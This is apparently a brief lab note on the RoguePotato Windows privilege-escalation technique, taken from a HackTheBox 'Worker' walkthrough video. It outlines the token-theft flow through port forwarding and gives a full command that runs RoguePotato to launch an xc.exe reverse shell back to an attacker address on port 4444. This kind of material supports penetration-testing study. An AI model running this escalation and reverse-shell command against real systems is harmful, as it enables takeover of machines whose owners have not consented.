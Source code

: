 # RoguePotato

Note by manesec.

From Ippsec Video: [HackTheBox - Worker - YouTube](https://www.youtube.com/watch?v=Auqt-NSB4SQ)

```bash
Juicy - (spoof) -> 127.0.0.1:9999 (steal token)
Rogue -> ATTACKERS:135 -> TARGET:9999 -> steal token
```

Just need to forward remote 135 port to local 9999 port.

`XC` Tools have some bug, the first connection will be work.

## Command

```bash
RoguePotato.exe -r 10.10.14.20 -e "C:\mane\xc.exe 10.10.14.20 4444" -l 9999
```

-r `remote attack ip`

-l `remote attack port`  -> `Victims 135 port`


